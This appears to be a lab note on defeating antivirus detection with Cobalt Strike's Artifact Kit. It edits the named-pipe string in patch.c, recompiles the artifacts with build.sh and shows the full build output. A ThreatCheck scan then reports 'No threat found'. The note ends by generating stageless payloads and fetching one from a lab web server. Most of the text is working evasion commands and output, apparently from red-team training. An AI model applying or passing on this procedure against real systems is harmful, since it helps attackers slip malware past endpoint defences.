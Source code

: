 had to add the `src-common` folder to be able to open `patch.c`, searched the `sprintf` function and found the portion that needs to be edited
![[Pasted image 20231107122752.png]]
before changing: `sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));`
after changing: `sprintf(pipename, "%c%c%c%c%c%c%c%c%cbugser\\jumper", 92, 92, 46, 92, 112, 105, 112, 101, 92);`
click `save`
![[Pasted image 20231107123015.png]]
in windows `WSL` navigate to `/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact`
run command `./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts` to recompile and create the new adjusted artifacts
```bash
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact>
./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
```
run `ThreatCheck.exe` against a new artifact `C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe`
Success!
```bash
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[+] No threat found!
[*] Run time: 0.83s
```
load new aggressor script into `Cobalt Strike` 

![[Pasted image 20231107130421.png]]
once loaded generate new payloads via `Payloads -> Windows Stageless Generate All Payloads` 
![[Pasted image 20231107131604.png]]
save to `C:\Payloads`
![[Pasted image 20231107131639.png]]
navigate to `http://10.10.5.50:80/b.exe`
